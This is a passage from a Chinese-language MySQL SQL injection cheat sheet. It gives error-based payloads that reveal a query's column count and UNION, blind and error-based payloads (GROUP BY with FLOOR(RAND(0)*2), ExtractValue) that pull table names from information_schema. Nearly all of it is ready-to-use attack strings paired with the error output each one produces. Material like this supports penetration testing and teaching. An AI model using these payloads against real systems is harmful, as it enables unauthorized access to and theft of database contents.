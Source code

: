 **基于错误\(2\)**

```text
SELECT ... INTO var_list, var_list1, var_list2...

Notes:
如果启用错误显示，此方法有效。
当注入点位于LIMIT子句之后时，查找列数很有用。

Example:
sql语句： SELECT permission FROM Users WHERE id = {INJECTION POINT};

-1 UNION SELECT 1 INTO @,@,@    使用的SELECT语句具有不同数量的列
-1 UNION SELECT 1 INTO @,@    使用的SELECT语句具有不同数量的列
-1 UNION SELECT 1 INTO @    没有错误意味着查询使用1列

Example 2:
sql语句： SELECT username, permission FROM Users limit 1,{INJECTION POINT};

1 INTO @,@,@    使用的SELECT语句具有不同数量的列
1 INTO @,@    没有错误意味着查询使用1列
```

**基于错误\(3\)**

```text
AND (SELECT * FROM SOME_EXISTING_TABLE) = 1

Notes:
如果您知道您所使用的表名称，并且启用了错误显示，则此功能可用。
它将返回表中的列的数量，而不是查询。

Example:
sql语句：SELECT permission FROM Users WHERE id = {INJECTION POINT};

1 AND (SELECT * FROM Users) = 1    操作数应该包含3列
```

**检索表名**

**union**

```text
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
```

**Blind**

```text
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
```

**Error**

```text
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5

tips：

version=10 for MySQL 5
```
